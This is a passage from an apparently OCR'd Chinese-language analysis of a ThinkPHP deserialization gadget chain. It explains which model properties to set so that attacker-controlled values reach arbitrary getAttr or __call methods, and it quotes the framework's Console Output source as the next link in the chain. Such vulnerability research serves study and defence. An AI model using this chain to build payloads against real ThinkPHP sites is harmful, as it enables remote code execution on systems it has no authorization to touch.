 ```php
{
    public function getModel()
    {
        return $this->model;
    }
}
```

首先设置下列属性,避免干扰

```php
$this->data = [];
$this->relation = [];
$this->visible = [];
$this->hidden = [];
```

将`$this->append`设置为`array('getError')`从而让`$modelRelation`的内容可控,需要满足`method_exists($modelRelation, 'getBindAttr')`,因此将`$this->error`设置为`\think\model\relation\OneToOne`某个子类的对象

将`$this->parent`与`\think\db\Query::$model`设置为同一对象,使`$value = $this->parent;`,从而使`$value`可控

将`\think\model\relation\OneToOne::$bindAttr`设置为`array(xxx)`,从而使`$attr`可控,最终通过` $value->getAttr($attr)`可以调用任意类的`getAttr`或者`__call`方法且参数可控

3. __call

`\think\console\Output`

```php
#thinkphp/library/think/console/Output.php
    public function __call($method, $args)
    {
        if (in_array($method, $this->styles)) {
            array_unshift($args, $method);
            return call_user_func_array([$this, 'block'], $args);
        }

        if ($this->handle && method_exists($this->handle, $method)) {
            return call_user_func_array([$this->handle, $method], $args);
        } else {
            throw new Exception('method not exists:' . __CLASS__ . '->' . $method);
        }
    }

    protected function block($style, $message)
    {
        $this->writeln("<{$style}>{$message}</$style>");
    }

    public function writeln($messages, $type = self::OUTPUT_NORMAL)
    {
        $this->write($messages, true, $type);
    }

    public function write($messages, $newline = false, $type = self::OUTPUT_NORMAL)
    {
        $this->handle->write($messages, $newline, $type);
    }
```
